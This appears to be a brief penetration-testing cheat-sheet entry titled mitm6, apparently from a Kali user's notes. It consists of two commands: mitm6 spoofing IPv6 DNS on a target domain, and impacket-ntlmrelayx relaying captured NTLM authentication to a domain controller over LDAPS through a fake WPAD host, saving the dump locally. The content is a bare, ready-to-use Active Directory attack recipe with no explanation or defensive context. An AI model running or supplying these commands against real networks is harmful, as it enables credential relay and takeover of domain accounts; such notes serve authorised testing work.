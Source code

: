 mitm6

~~~bash
mitm6 -d [domain].[ext]
~~~

~~~bash
impacket-ntlmrelayx -6 -t ldaps://[domain controller ip] -wh nullwpad.[domain].[ext] -l /home/kali/Working/enumeration/mitm6_dump
~~~

